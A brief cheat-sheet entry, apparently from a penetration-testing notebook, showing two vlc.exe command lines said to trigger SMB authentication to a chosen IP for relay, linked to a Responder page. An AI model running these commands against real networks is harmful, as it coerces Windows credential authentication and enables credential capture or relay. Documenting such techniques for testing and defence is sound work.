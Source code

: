 # VLC

Execute command to perform SMB authentication relay.

```
C:\> vlc.exe -q -I smb --smb-user <username> --smb-pwd <password> --smb-domain <domain>

C:\> vlc.exe -q smb://<username>:<password>@<IP>
```

---
## References

[[02 - Responder|Responder]]